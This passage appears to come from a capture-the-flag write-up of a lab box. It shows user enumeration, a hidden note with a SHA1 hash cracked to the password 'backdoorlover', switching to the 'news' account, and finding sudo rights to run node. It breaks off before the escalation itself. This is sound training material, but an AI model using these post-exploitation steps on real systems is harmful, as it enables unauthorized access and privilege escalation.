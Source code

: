 #### User Enumeration and Hidden Files

I explored the `/home` directory to identify potential user accounts:

```shellscript
www-data@relevant:/home$ ls
h4x0r  patsy  relevant
```

I found three user directories: `h4x0r`, `patsy`, and `relevant`. I started by checking `h4x0r`'s directory. After some navigation, I found a hidden directory `...` inside `h4x0r`'s home, which contained a `note.txt` file.

```shellscript
www-data@relevant:/home/h4x0r$ ls -la
# ... (output showing '...' directory) ...
www-data@relevant:/home/h4x0r$ cd ...
www-data@relevant:/home/h4x0r/...$ ls
note.txt
www-data@relevant:/home/h4x0r/...$ cat note.txt
news : 4C7EB317A4F4322C325165B4217C436D6E0FA3F1
```

This `note.txt` file contained a username `news` and a hash: `4C7EB317A4F4322C325165B4217C436D6E0FA3F1`. This hash appeared to be an SHA1 hash.

### Privilege Escalation

#### Cracking the Hash

I used an online hash cracker (or `hashcat`/`john` with a wordlist) to crack the SHA1 hash `4C7EB317A4F4322C325165B4217C436D6E0FA3F1`. The cracked password was `backdoorlover`.

#### SSH Login as `news`

I attempted to switch user to `news` using the cracked password:

```shellscript
www-data@relevant:/home/h4x0r/...$ su news
Password: backdoorlover
```

I successfully switched to the `news` user.

```shellscript
id
uid=9(news) gid=9(news) groups=9(news)
```

#### Sudo Privilege Escalation

As the `news` user, I checked for `sudo` privileges:

```shellscript
news@relevant:/home/h4x0r$ sudo -l
[sudo] password for news: backdoorlover
Matching Defaults entries for news on relevant:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User news may run the following commands on relevant:
    (ALL : ALL) /usr/bin/node
```
